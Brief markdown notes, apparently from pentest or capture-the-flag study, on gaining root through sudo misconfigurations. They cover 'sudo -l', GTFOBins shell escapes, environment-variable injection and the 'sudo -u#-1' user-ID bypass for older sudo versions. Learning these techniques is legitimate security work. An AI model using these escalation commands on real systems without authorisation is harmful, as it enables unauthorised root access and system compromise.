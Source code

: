 ## Shell escape sequence
`sudo -l` to see what program can be run as sudo for this user

[GTFOBins](https://gtfobins.github.io/) : compendium for unix program that can be used as post exploit vulnerability

Follow the sudo part of the website to get root privilege

## Environment Variables
`sudo -l` also show inherited environment variable from the user that can be injected with root shell


## !root permission
if user can't run as only root, you can bypass it by running
```bash
sudo -u#-1 command
sudo -u\#-1 command
```
which is the same as root. Can only works for some older version.
check version with `sudo --version`
More Detailed:
https://www.exploit-db.com/exploits/47502